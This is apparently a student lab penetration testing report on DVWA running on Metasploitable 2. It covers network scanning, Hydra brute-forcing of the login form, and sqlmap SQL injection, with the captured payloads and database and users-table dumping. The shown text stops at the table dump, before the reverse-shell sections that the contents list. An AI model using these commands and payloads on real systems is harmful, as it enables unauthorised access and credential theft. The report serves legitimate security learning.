

# Penetration Testing Report

## Table of Contents

- [1. Executive Summary](#1-executive-summary)
- [2. Methodologies](#2-methodologies)
- [3. Detailed Findings](#3-detailed-findings)
    - [3.1 Reconnaissance: Network Mapping](#31-reconnaissance-network-mapping)
        - [3.1.1 Description](#311-description)
        - [3.1.2 Steps to Reproduce](#312-steps-to-reproduce)
            - [3.1.2.1 Scan Environment](#3121-scan-environment)
            - [3.1.2.2 Create Network Map](#3122-create-network-map)
        - [3.1.3 Potential Impact](#313-potential-impact)
        - [3.1.4 Risk Rating](#314-risk-rating)
        - [3.1.5 Recommendations](#315-recommendations)
    - [3.2 Brute Force Attack](#32-brute-force-attack)
        - [3.2.1 Description](#321-description)
        - [3.2.2 Steps to Reproduce](#322-steps-to-reproduce)
            - [3.2.2.1 Hydra Tests](#3221-hydra-tests)
            - [3.2.2.2 Custom Python Script](#3222-custom-python-script)
        - [3.2.3 Potential Impact](#323-potential-impact)
        - [3.2.4 Risk Rating](#324-risk-rating)
        - [3.2.5 Recommendations](#325-recommendations)
    - [3.3 SQL Injection Attack](#33-sql-injection-attack)
        - [3.3.1 Description](#331-description)
        - [3.3.2 Steps to Reproduce](#332-steps-to-reproduce)
            - [3.3.2.1 Automated SQLMAP Injection](#3321-automated-sqlmap-injection)
            - [3.3.2.2 Manual Browser-Based SQLi Option](#3322-manual-browser-based-sqli-option)
        - [3.3.3 Potential Impact](#333-potential-impact)
        - [3.3.4 Risk Rating](#334-risk-rating)
        - [3.3.5 Recommendations](#335-recommendations)
    - [3.4 File Upload Attack and Reverse Shell](#34-file-upload-attack-and-reverse-shell)
        - [3.4.1 Description](#341-description)
        - [3.4.2 Steps to Reproduce](#342-steps-to-reproduce)
            - [3.4.2.1 Simple Custom-made PHP File Disguised as an Image](#3421-simple-custom-made-php-file-disguised-as-an-image)
            - [3.4.2.2 Prebuilt PHP Reverse Shell](#3422-prebuilt-php-reverse-shell)
        - [3.4.3 Potential Impact](#343-potential-impact)
        - [3.4.4 Risk Rating](#344-risk-rating)
        - [3.4.5 Recommendations](#345-recommendations)
    - [3.5 Privilege Escalation](#35-privilege-escalation)
        - [3.5.1 Description](#351-description)
        - [3.5.2 Steps to Reproduce](#352-steps-to-reproduce)
        - [3.5.3 Potential Impact](#353-potential-impact)
        - [3.5.4 Risk Rating](#354-risk-rating)
        - [3.5.5 Recommendations](#355-recommendations)
    - [3.6 Chained Exploit](#36-chained-exploit)
        - [3.6.1 Description](#361-description)
        - [3.6.2 Steps to Reproduce](#362-steps-to-reproduce)
        - [3.6.3 Potential Impact](#363-potential-impact)
        - [3.6.4 Risk Rating](#364-risk-rating)
        - [3.6.5 Recommendations](#365-recommendations)
- [4. Tools Used and Their Effectiveness](#4-tool-used-and-their-effectiveness)
- [5. Limitations of the Test](#5-limitations-of-the-test)
- [6. Appendices](#6-appendices)


## 1. Executive Summary

This report details the results of a penetration test conducted against a vulnerable target environment (DVWA (Damn Vulnerable Web Application) running on Metasploitable 2). The objective was to identify and exploit common web application vulnerabilities in a controlled lab setup. The primary vulnerabilities assessed were brute force authentication, SQL injection, file upload leading to reverse shell access, and privilege escalation. All phases were performed using open-source tools on Kali Linux.

This comprehensive report covers successful and failed attempts, tool usage, impact analysis, and actionable recommendations for mitigation. A chained exploit was also performed to demonstrate how vulnerabilities can be combined to increase overall risk and gain root access to the system. The outcome confirmed that the DVWA application is highly vulnerable under Medium security settings. 

Summary of the environment: 

1. Attacker machine: Kali Linux (in VirtualBox)
2. Target machine: Metasploitable 2 (also in VirtualBox)
3. Project workspace: Visual Studio Code + WSL (for editing scripts, reporting, and pushing to Gitea)

---

## 2. Methodologies

Kali Linux VM was chosen as the attacking platform, as it comes with a great variety of pre-installed tools that are useful for pentests, and it represents industry standards. 

Prons and cons of installing Kali in WSL2, instead of VM, were also considered, but even though Kali in WSL2 comes with an easier set-up, you cannot capture Wi-Fi traffic or use some low-level packet injection tools without a VM
Kali as a Virtual Machine (with VirtualBox) has full hardware access (great for advanced attacks, Wi-Fi sniffing, reverse shells)

The test followed the classic penetration testing lifecycle:

1. **Reconnaissance**: Discovery of open ports, services, and application layout using tools like `nmap`, `netstat`, `tcpdump`, `Wireshark`, and `Zenmap`.
2. **Enumeration**: Identifying service versions and potential entry points.
3. **Exploitation**:
    - Brute force login attack with `hydra`, and Python script
    - Authenticated SQL injection with `sqlmap`, and manual browser-based injection
    - File upload of a reverse shell
    - Privilege escalation via misconfigured SUID binary
4. **Post-exploitation**: System access validation and privilege verification.
5. **Reporting**: Detailed documentation of findings, screenshots, tool outputs, and recommended mitigations.

A shared folder was used to share results between Kali and host OS.

Each step was documented, including failed attempts and the rationale behind the final approach.

All actions were conducted ethically within an isolated, lab-only environment.

---

## 3. Detailed Findings

This chapter describes the detailed findings and steps to reproduce all the tests conducted in this penetration testing. 

### 3.1 Reconnaissance: Network Mapping

Network mapping was performed using various tools to: 

- Scan for open ports and services running on Metasploitable 2
- Inspect protocols and capture network packets
- Create a network map based on the findings


#### 3.1.1 Description

Key tools:

| Tool          | Purpose                               | GUI / CLI | Notes                                             |
| ------------- | ------------------------------------- | --------- | ------------------------------------------------- |
| **nmap**      | Port scanning, service detection      | CLI       | Core tool                                         |
| **netstat**   | See which ports are listening locally | CLI       | Simple and already built-in                       |
| **tcpdump**   | Packet capture for traffic analysis   | CLI       | Lightweight, CLI alternative to Wireshark         |
| **Wireshark** | Deep packet inspection + live capture | GUI       | Best for visualizing traffic, filtering protocols |
| **Zenmap**    | GUI frontend for `nmap`               | GUI       | Good for building network maps, optional          |


The Metasploitable 2 machine (`192.168.0.11`) was scanned from a Kali Linux attacker machine using several tools to verify the results, including Zenmap (nmap GUI) with the "Intense Scan" profile.

A total of **23 open TCP ports** were discovered, exposing a wide variety of services, including:
- Remote shells (1524/tcp)
- Web applications (80/tcp and 8180/tcp)
- Multiple vulnerable services (FTP, Telnet, VNC, MySQL)
- Login credentials in plaintext in HTTP POST request

These findings help define the attack surface for further testing.


#### 3.1.2 Steps to Reproduce

Run mapping tools to scan the environment, and then create a network map out of the findings. 

#### 3.1.2.1 Scan Environment

**Step 1**: Run `nmap` in Kali to find open ports and services, targeting Metasploitable's IP:

- Basic port scan:
    ```bash
    nmap <metasploitable_ip>
    ```
    - Gained data of open ports and services
    - Screenshot of basic port scan: 
    
    

- Full TCP port scan + service detection:
    ```bash
    nmap -sS -sV -O <metasploitable_ip>
    ```

    - `-sS` = stealth/TCP SYN scan
    - `-sV` = service version detection
    - `-O` = attempt OS detection

    - Gained data of the service version and OS details 
    - See file [network-mapping-ports-nmap.txt](./reports/network-mapping-ports-nmap.txt), and screenshot of the full TCP port scan with service detection: 
    
    


**Step 2 (Optional)**: Use `netstat` on Metasploitable (Local Info)

- Verify what is exposed on the VM by listing all TCP/UDP ports that are listening on Metasploitable
- Run in Metasploitable:
    ```bash
    netstat -tuln
    ```

- Problem: 
    - The Metasploitable VM is old and uses a low-resolution terminal which doesn't support dynamic resizing, and therefore it is impossible to see and document full results 
- Solution: 
    - Pipe `netstat` into `less` (scrollable viewer): 
        ```bash
        netstat -tuln | less
        ```
    - Now can use the arrow keys to scroll

- Screenshots of the `netstat` results: 

    
    
    


<span style="color:grey"># At this point, faced challenges with both VMs, because they do not allow copy-pasting, and their default keyboard set-up is different to mine. Managed to change Kali keyboard set-up from US to FI, but still all special characters are not found where they are in my keyboard. Metasploitable proved even more difficult to adjust, so I decided to run commands through Kali VM as much as possible, and avoid running commands in the Metasploitable VM. </span>


**Step 3**: Test Both `tcpdump` and `wireshark` (Network Traffic Capture)

- These show:
    - What kind of data flows between Kali and Metasploitable
    - HTTP, FTP, or reverse shell traffic, etc.

- A: Use `tcpdump` (lightweight CLI)
    
    - Example, in Kali:
        ```bash
        sudo tcpdump -i eth0
        ```
    - Stop with `Ctrl+C`. You can also write to a `.pcap` file:
        ```bash
        sudo tcpdump -i eth0 -w capture.pcap
        ```
    - `.pcap`, packet capture, is a binary format used by tools like `wireshark` and `tcpdump`
        - It contains raw captured network packets and protocol information
    
    - Network capture: 
        - The file [network-tcpdump-capture.pcap](./reports/network-tcpdump-capture.pcap) contains a packet capture of a reconnaissance using `tcpdump` from Kali Linux.

            **Key Observations:**
            - DNS: Captured PTR (reverse DNS) queries from Metasploitable to external DNS servers.
            - mDNS/Bonjour: Discovered local hostnames like CrashOLaptop via multicast DNS traffic.
            - ARP: Captured ARP broadcasts from Metasploitable trying to resolve local IPs.
            - IPv6 Traffic: Router advertisements were detected, but were not useful for this test.
            - No HTTP traffic: DVWA login was not accessed during this capture session, so no credentials or HTTP headers were seen.

            **Interpretation:**
            - This test partially succeeded: It captured useful metadata about the network (e.g. hostname leaks and DNS queries), but did not record login attempts or HTTP traffic because the browser was not used during the capture window.

        - Screenshots of the results (not full): 

            
            


- B: Use `Wireshark` (full GUI)
    - In Kali terminal:

    1. Launch with:
        ```bash
        wireshark
        ```
    2. In the Wireshark GUI, choose your active network interface (e.g. `eth0`), and double-click on it to start a **live capture**

    3. Filters can be applied e.g. as follows:

        | Filter                    | What it shows                                    |
        | ------------------------- | ------------------------------------------------ |
        | `ip.addr == 192.168.0.11` | All traffic to/from Metasploitable 2             |
        | `http`                    | Only HTTP packets (e.g. login requests to DVWA) |
        | `tcp.port == 80`          | TCP traffic on port 80 (same as HTTP)            |
        | `ftp`                     | Any FTP traffic (port 21)                        |
        | `tcp`                     | All TCP traffic                                  |

    - E.g. use filter: 
        ```
        ip.addr == 192.168.0.11 and http
        ```

    4. Login to the DVWA in Kali Firefox to capture real DVWA traffic, and get:
            - Packets to/from `<metasploitable_ip>`
            - Protocols: HTTP
            - Info like: `GET /dvwa/login.php`, `POST /login.php`

    5. Look for the **login POST request**
        - Find a line with:
            ```bash
            POST /dvwa/login.php HTTP/1.1
            ```
        - Click it to highlight it
        - Expand the "Hypertext Transfer Protocol" section (bottom pane) to see the packet breakdown
        - Right-click → Follow → HTTP stream to see full conversations

    **Key Observations:** 
    - Wireshark is great for inspecting protocols and visualizing connections.
    - Accessed DVWA login during this capture session
        - Captured HTTP POST requests to `/dvwa/login.php` using Wireshark. 
        - username/password are shown in plaintext. 
    
    - Screenshot of the Wireshark capture of insecure DVWA login: 

    
    
    - Wireshark capture packets available in the file: [network-wireshark-dvwa-login1.pcap](./reports/network-wireshark-dvwa-login1.pcap)
    - Wireshark HTTP stream available as a text file: [network-wireshark-dvwa-login-from-stream](./reports/network-wireshark-dvwa-login-from-stream)


#### 3.1.2.2 Create Network Map

There are no fully automatic tools that generate a pretty network diagram from `nmap` output, but:
- `Zenmap` (GUI for `nmap`): creates topology graph (can export)
- However, since we only have one attacker targeting one target (Metasploitable IP), the network map does not display a larger network, but instead it is limited to mapping the open ports on that IP address.
- Still, a `Zenmap` fisheye diagram can be created:

    **Step 1**: Install Zenmap in Kali Linux

    ```bash
    sudo apt update
    sudo apt install zenmap -y
    ```

    **Step 2**: Launch Zenmap in Kali

    ```bash
    sudo zenmap
    ```
    - A graphical window will open.

    **Step 3**: Run a Scan in Zenmap

    - Interface overview:
        - Target: IP address or range: use Metasploitable IP
        - Profile: Choose scan type (or enter custom command below): Choose Intense Scan
            - Or enter this in the Command box:
                ```bash
                nmap -T4 -A -v <metasploitable_ip>
                ```
            - This runs an intense scan:
                - `-T4`: faster execution
                - `-A`: OS detection, version detection, script scanning, traceroute
                - `-v`: verbose output
        - Command: You can enter or modify your scan command here
        - Then click Scan.

    - Zenmap intense scan result available as a text file: [network-mapping-zenmap-intense-scan](./reports/network-mapping-zenmap-intense-scan.txt)
        
    **Step 4**: View the Network Topology

    - After the scan finishes:
        1. Go to the "Topology" tab in Zenmap
        2. Click on "Fisheye" layout
        3. You'll see a visual map:
            - Your Kali IP (scanner)
            - The Metasploitable IP (target)
            - Possibly the router or gateway if detected
    - Hovering over nodes or clicking them shows extra info.

    - Screenshot of the Zenmap topology of Metasploitable IP: 

        

- Here is a manually drawn network map using `draw.io`: 

    

- And a textual representation of the network map in file [network-map.txt](./reports/network-map.txt).

#### 3.1.3 Potential Impact

- The network mapping tests proved that the DVWA environment is vulnerable with a wide variety of services being exposed, including: 
    - 23 open TCP ports
        - Remote shells (1524/tcp)
        - Web applications (80/tcp and 8180/tcp)
        - Multiple vulnerable services (FTP, Telnet, VNC, MySQL)
- Captured HTTP POST requests to `/dvwa/login.php`, which show username/password in plaintext.
- When you log in to DVWA (or any web app) without `HTTPS`, your credentials are sent:
    - As part of an HTTP POST request
    - In the clear, unencrypted — meaning anyone capturing packets can read them

- These findings help define the attack surface for further testing.

#### 3.1.4 Risk Rating 

High

#### 3.1.5 Recommendations

- Use `HTTPS` in real applications
- Encrypt and protect login credentials

---

### 3.2. Brute Force Attack

Brute force attacks were used against DVWA's login form to identify weak user credentials. 


#### 3.2.1 Description

Both custom-made wordlists of possible usernames and passwords, as well as Kali's built-in wordlist, `rockyou.txt`, were tested. 

Ran both automated `hydra` tests, as well as my own Python script `scripts/brute_force_dvwa.py` to brute-force DVWA login credentials, and used Kali browser to validate login.  

Why Hydra: 

| Feature            | Value                    |
| ------------------ | ------------------------ |
| Speed              | Very fast                |
| Protocol support   | HTTP, FTP, SSH, etc.     |
| Customizability    | Accepts custom wordlists |
| Output             | Shows found credentials  |
| Installed in Kali? | ✅ Yes                   |

Concept:

1. Send login requests using combinations of usernames & passwords
2. Check the response body or status code from the server
3. Identify a change in behaviour that signals a successful login:
    - e.g. a redirect, a different message, or lack of "Login failed"

Brute-forcing proved to be time-consuming and not guaranteed to provide results with random wordlists. When correct credentials are available in the wordlists, it produces good results. 


#### 3.2.2 Steps to Reproduce

**Step 1**: Prepare Wordlists (in Kali) with 10+ entries

- Custom username and password wordlists were created in Kali Linux with ≥10 entries each, as required. 
    ```console
    nano users.txt
    nano passwords.txt
    ```

- Screenshots of the original wordlists: 

    
    


**Step 2**: Identify DVWA Login Form Details

- Used Firefox + Inspect Element to examine the login form at:

    ```http
    http://<metasploitable_ip>/dvwa/login.php
    ```

- Key fields:
    - Form action: `login.php`
    - Input field names: `username`, `password`, and `Login`
    - Method: POST

- Check what message appears when login fails:
    ```html
    Login failed
    ```

- Screenshot of the DVWA Login Form Details: 

    


#### 3.2.2.1 Hydra Tests

**Step 1**: Run Hydra

- Run `hydra` with custom wordlists, in the Kali terminal in the directory where the `users.txt` and `passwords.txt` are:
    ```bash
    hydra -L users.txt -P passwords.txt <metasploitable_ip> http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
    ```

    - Breakdown:
        - `-L users.txt`: list of usernames
        - `-P passwords.txt`: list of passwords
        - `http-post-form`: attack type
        - `"/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"`:
            - The form path
            - Input fields using Hydra placeholders


**Step 2**: Results

- 1st attempt: Custom wordlists with 12 usernames and 12 passwords (failed)
    ```
    1 of 1 target completed, 0 valid password found
    ```
    - Hydra tried all 144 username and password combinations, and either: 
        - None of my wordlist combinations were correct
        - Hydra didn't recognize the correct response (i.e. maybe the failure string is wrong)
            - Checked that the failure string I used is correct, so there simply were no valid login combinations in my wordlists
    - Tried adding a few more usernames and passwords to my wordlists, Hydra tried 185 logins, but no valid passwords were still found
    - I also tried checking some possible login and password combinations manually (e.g. `user:user`, `test:test`, `dvwa:dvwa`) to ensure if they actually exist, but all resulted in a failure to log in. 

    - Screenshot of the 1st Hydra attack: 

        

    - Conclusion: wordlists need expanding

- 2nd attempt: `rockyou.txt` password list (failed)
    - To expand wordlist, since previous produced no hits, tested a Kali built-in wordlist (`rockyou.txt`)
        ```bash
        ls /usr/share/wordlists/
        ```
    - Try:
        ```bash
        zcat /usr/share/wordlists/rockyou.txt.gz | head -n 20
        ```
    - You can extract it fully with:
        ```bash
        sudo gunzip /usr/share/wordlists/rockyou.txt.gz
        ```
    - This will:
        - Extract the file in-place as `/usr/share/wordlists/rockyou.txt`
        - Make it available for use in Hydra or other tools
        - It's a big file (~14M passwords)

    - Ran Hydra with my own `users.txt` and extracted `rockyou.txt`:
        ```bash
        hydra -L users.txt -P /usr/share/wordlists/rockyou.txt <metasploitable_ip> http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
        ```
    - Result: "272543581 login tries (l:19/p:14344399)": 
        - Testing 19 usernames × 14.3 million passwords
        - That's 272 million login attempts
        - Doing about 780 tries/minute
        - Estimated time: ~5760 hours (yes, ~8 months)
        -> Due to the size of the password list (14M entries), the process was manually interrupted after 30 minutes, having tested over 24,000 credentials without success.
    
    - Screenshot of the Hydra attack with full `rockyou.txt` wordlist: 
    
    

- 3rd attempt: Tried using a smaller Sample of `rockyou.txt` (failed)
    - Minimized the `rockyou.txt` wordlist to the top 100 passwords:
        ```bash
        head -n 100 /usr/share/wordlists/rockyou.txt > top100.txt
        ```
    - Then reran Hydra with that list:
        ```bash
        hydra -L users.txt -P top100.txt <metasploitable_ip> http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
        ```
    - This finished quickly, but resulted in 0 valid passwords again, and proved that the previous test probably ran correctly for the 24,000 credentials without success before the process was interrupted. 

- Scoured the Internet for more data on DVWA, and found an article on <a href="https://securityengineer.medium.com/sql-injection-attack-using-dvwa-7c7543dda348">Medium</a> where using SQL injection + John the Ripper, students extracted and cracked account credentials such as:
    - gordonb : abc123
    - pablo : letmein
    - 1337 : charley
- The DVWA GitHub and other resources confirm that the default admin/password is the only built-in user initially, but you can create more via the SQL Injection / user management modules.

- 4th attempt: To test Hydra brute force attack one more time successfully, I updated my wordlists to include the three existing account credentials
    - Successfully discovered valid credentials, e.g.:
        - Username: `gordonb`
        - Password: `abc123`
        ```
        3 valid passwords found
        ```
    - Screenshot of the succesfull Hydra attack: 
    
        

- Tested and confirmed the access manually in the browser

    - Screenshot of the logging in with found credentials: 

        


#### 3.2.2.2 Custom Python Script

- In addition to using Hydra to brute force login credentials for DVWA, I developed a custom Python script that replicates this attack. The script iterates through username and password combinations and analyzes the HTTP response to identify successful logins. I tested it against the DVWA login form and validated its success by detecting the known working credentials: `pablo:letmein`.

- To demonstrate the portability of custom tooling, I ran the Python brute force script from my WSL Ubuntu environment, targeting the Metasploitable VM across the bridged adapter subnet. The script does not depend on Kali-specific tools like Hydra and can be executed in any Linux setup with Python and the `requests` library installed.

- Screenshots of running the Python brute force script in Kali: 

    
    
    


#### 3.2.3 Potential Impact

Unauthorized access to protected areas of DVWA (e.g. SQL injection pages) which are not available to unauthenticated users.

#### 3.2.4 Risk Rating 

High

#### 3.2.5 Recommendations

- Vulnerability: Weak login credentials are guessable via brute force.
- Recommendation:
    - Enforce strong password policies.
    - Add rate-limiting or CAPTCHA on login pages after failed attempts.
    - Implement account lockouts after repeated failed logins.

- Improves Security By:
    - This makes brute-force attacks much slower or infeasible, limiting attackers' ability to discover valid credentials.

---

### 3.3 SQL Injection Attack

SQL injection (SQLi) involves manipulating the SQL query to extract or modify data in the database by injecting code into input fields.


#### 3.3.1 Description

Kali provides a powerful automated tool `sqlmap` for SQLi, even though manual injection was also tested in this penetration testing set. Furthermore, `searchsploit` is used for searching for known exploits.

Comparison between `sqlmap` and manual injection: 

| Method     | Pros                                      | Cons                         |
| ---------- | ----------------------------------------- | ---------------------------- |
| **sqlmap** | Fast, automated, powerful, fingerprinting | Less educational if overused |
| Manual     | Good for learning and control             | Slower, more trial-and-error |


The DVWA application was proved to be vulnerable to SQL injection via the `id` parameter in the `/vulnerabilities/sqli/` page.

Summary of Injection Techniques DVWA Is Vulnerable to:

| Type          | Visibility | Strategy                      | When Used                  |
| ------------- | ---------- | ----------------------------- | -------------------------- |
| Boolean-Based | No output  | Detect T/F via page behaviour | Blind / minimal feedback   |
| Error-Based   | Output     | Leak data in error messages   | Error messages shown       |
| Time-Based    | No output  | Detect T/F via delay          | Totally blind environments |
| UNION-Based   | Output     | Inject & display own data     | Page echoes query results  |


#### 3.3.2 Steps to Reproduce

Run **sqlmap** for fast and powerful results, and test SQLi manually in browser for educational purposes. 

#### 3.3.2.1 Automated SQLMAP Injection

**Step 1**: Grab Session Cookie

1. Log in to DVWA in Kali Firefox 
    - If SQLi is done as an isolated attack, log in as `admin`
    - If Brute force and SQLi are done as a chained exploit, you can use brute-forced credentials
2. Press F12 → open Dev Tools → go to the Storage → Cookies
3. Copy the session cookie (e.g. `PHPSESSID=abc123xyz`) 
4. Also note the security level cookie, should be `security=medium`

- Screenshot of the DVWA cookie used for authentication:

    


**Step 2**: Run `sqlmap` against the injection point

- Summary of `sqlmap` flags: 
    - `--cookie`: required to stay authenticated in DVWA
    - `--batch`: skips interactive prompts
    - `--banner`: shows DBMS (Database Management System) version
    - `--dbs`: lists databases
    - `-D dvwa --tables`: lists tables
    - `-D dvwa -T users --dump`: extracts usernames + hashes

- You can first verify that `sqlmap` is installed in Kali
    ```bash
    sqlmap --version
    ```

- Logged in to DVWA in Kali browser, we can check and assume the DVWA SQLi page is: 
    ```bash
    http://<metasploitable_ip>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit
    ```

- Run `sqlmap` to detect and exploit the injection:
    ```bash
    sqlmap -u "http://<metasploitable_ip>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your_session_id; security=medium" --batch --banner
    ```
- Or to save to txt file in shared folder, e.g.: 
    ```bash
    sqlmap -u "http://<metasploitable_ip>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your_session_id; security=medium" --batch --banner > /mnt/KaliShare/sqlmap_output.txt
    ```

- 1st attempt: 
    - failed with response: 
        ```
        [WARNING] GET parameter 'id' does not appear to be dynamic
        [WARNING] heurestic (basic) test shows that GET parameter 'id' might not be injectable
        ```
    - See file [sqlmap_output1.txt](./reports/sqlmap_output1.txt) 

    - Was redirected to the login page
    - It could not analyze the response properly, so it gave up
        - Means I was not authenticated during the test, assuming because of timeout

- 2nd attempt: 
    - Tried again and found root cause of previous problem: as the long session cookie had to written in the command manually, I had written one character as 'O' instead of '0'.  

    - Successfully confirmed that the vulnerable input is the `id` parameter in the URL's query string:

        | Outcome               | Explanation                                                                                        |
        | --------------------- | -------------------------------------------------------------------------------------------------- |
        | 🟢 Injection Found    | `id` is confirmed injectable using **4 techniques**: boolean-based, error-based, time-based, UNION |
        | 🟢 DBMS Identified    | `MySQL 5.0.51a-3ubuntu5` running on Ubuntu 8.04                                                    |
        | 🟢 Banner Retrieved   | `banner: '5.0.51a-3ubuntu5'` — important for finding exploits                                      |
        | 🟢 All results logged | Output saved to: `/home/kali/.local/share/sqlmap/output/192.168.0.11`                              |

    - See file [sqlmap_output2.txt](./reports/sqlmap_output2.txt) 
    
    **The 4 Injection Techniques Explained:** 
    
    1. Boolean-Based Blind Injection
        ```
        Type: boolean-based blind
        Title: Boolean-based blind - Parameter replace (original value)
        Payload: id=(SELECT (CASE WHEN (7406=7406) THEN 1 ELSE (SELECT 1864 UNION SELECT 1238) END))&Submit=Submit
        ```

        🔹 What it means:
        - The server doesn't directly return SQL results (like user data), but it responds differently based on a true or false condition in the SQL.
        - SQLmap changes the `id` to a logic test like:

            ```sql
            (SELECT (CASE WHEN (7406=7406) THEN 1 ELSE (SELECT 1864 UNION SELECT 1238) END))
            ```
        - If the page loads normally → the condition was **true**
        - If the page behaves differently → the condition was **false**

        - Used when: error messages and content aren't shown, but timing or content change reveals info.

    2. Error-Based Injection
        ```plaintext
        Type: error-based
        Title: MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: id=1 AND ROW(2484,1884)>(SELECT COUNT(*),CONCAT(0x7162627171,(SELECT (ELT(2484=2484,1))),0x716b6a7a71,FLOOR(RAND(0)*2))x FROM (SELECT 2008 UNION SELECT 3074 UNION SELECT 3727 UNION SELECT 2343)a GROUP BY x)&Submit=Submit
        ```

        🔹 What it means:
        - This technique forces an SQL error, and the error message leaks data into the output.
        - SQLmap uses clever tricks like:
            ```sql
            FLOOR(RAND(0)*2)
            ```
        - This introduces a duplicate key error in `GROUP BY`
        - The error message often includes pieces of injected data

        - Used when: error messages are shown on the page (e.g. `MySQL: Duplicate entry...`)

    3. Time-Based Blind Injection
        ```plaintext
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1 AND (SELECT 5779 FROM (SELECT(SLEEP(5)))yOIm)&Submit=Submit
        ```

        🔹 What it means:
        - The injected SQL includes a SLEEP(5) command, which delays the response by 5 seconds if the query works.
        - Example:
            ```sql
            id=1 AND (SELECT SLEEP(5))
            ```
        - If the page delays → the condition executed = injectable.

        - Used when: there's no output at all, but you can measure response time.

    4. UNION-Based Injection
        ```plaintext
        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1 UNION ALL SELECT CONCAT(0x7162627171,0x4c5a4e596d5577597a4b6a5159456258524b58766143746a6f63776f74725770764d447251495779,0x716b6a7a71),NULL-- -&Submit=Submit
        ```
        🔹 What it means:
        - SQLmap uses a UNION SELECT to merge query results with its own injected data.
        - It tries to show results on the page by combining the original query with fake rows:
            ```sql
            UNION ALL SELECT 'data', NULL
            ```
        
        - Used when: the page prints SQL results (e.g. usernames), and you can sneak your own in.

    **Summary of Findings:** 

    Sqlmap identified that the `id` parameter of the GET request is vulnerable to multiple types of SQL injection:
    - Boolean-based blind: revealed via response behaviour without error messages
    - Error-based: exploited by provoking error messages to extract data
    - Time-based blind: confirmed by observing delayed responses
    - UNION query: allowed retrieval of data via crafted SELECT statements


**Step 3**: Retrieve All DB Names (Schemas)

- Run database query:   
    ```bash
    sqlmap -u "http://<metasploitable_ip>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=your_session_id; security=medium" --batch --dbs
    ```

- This shows MySQL databases that exist on the Metasploitable 2 server: 
    ```sql
    available databases [7]:
    [*] dvwa
    [*] information_schema
    [*] metasploit
    [*] mysql
    [*] owasp10
    [*] tikiwiki
    [*] tikiwiki195
    ```

    | Database Name                        | Description                                                               |
    | ------------------------------------ | ------------------------------------------------------------------------- |
    | `dvwa`                               | The **Damn Vulnerable Web App** database ← Main target                    |
    | `information_schema`                 | System DB that stores metadata about other databases (standard for MySQL) |
    | `mysql`                              | MySQL system database (user accounts, permissions, etc.)                  |
    | `metasploit`                         | Database used by Metasploit for exploits (preloaded in Metasploitable)    |
    | `owasp10`, `tikiwiki`, `tikiwiki195` | Databases from other vulnerable apps included in Metasploitable           |

    - See file [sqlmap_output3_all_db.txt](./reports/sqlmap_output3_all_db.txt) 

    **Result:**

    Using sqlmap with the `--dbs` flag, I successfully enumerated all databases on the Metasploitable 2 MySQL server. The output revealed seven databases, including:

    - `dvwa`: the application's own database
    - `mysql`: the internal MySQL account database
    - `information_schema`: standard schema metadata
    - and others associated with vulnerable apps like `metasploit` and `tikiwiki`

    This confirms that SQL injection allows full enumeration of the back-end database server.


**Step 4**: Get Tables from Target DB (`dvwa`)

```bash
sqlmap -u "..." --cookie="..." -D dvwa --tables
```
-  `dvwa` database contains:
    ```sql
    Database: dvwa
    [2 tables]
    +-----------+
    | guestbook |
    | users     |
    +-----------+
    ```
    - `guestbook`: stores guestbook messages (another feature in DVWA)
    - `users`: stores usernames, hashed passwords, user IDs, and privilege levels — this is our main target

- See file [sqlmap_output4_get_tables.txt](./reports/sqlmap_output4_get_tables.txt) 

    **Result:**

    Using sqlmap with the `--tables` flag, I enumerated the contents of the vulnerable `dvwa` database. Two tables were found:

    - `users`: likely stores login information for DVWA users
    - `guestbook`: used for DVWA's guestbook feature

    These results confirm successful schema enumeration and set the stage for credential extraction via SQL injection.


**Step 5**: Dump the users Table

```bash
sqlmap -u "..." --cookie="..." -D dvwa -T users --dump
```
- This dumps the full users table to terminal and to file, including:
    - `user_id`
    - `username`
    - `avatar URL`
    - `password` (in plaintext after cracking)
    - `first_name` and `last_name`
- We can now see usernames and password hashes!

- See file [sqlmap_output5_dump_users_table.txt](./reports/sqlmap_output5_dump_users_table.txt) 

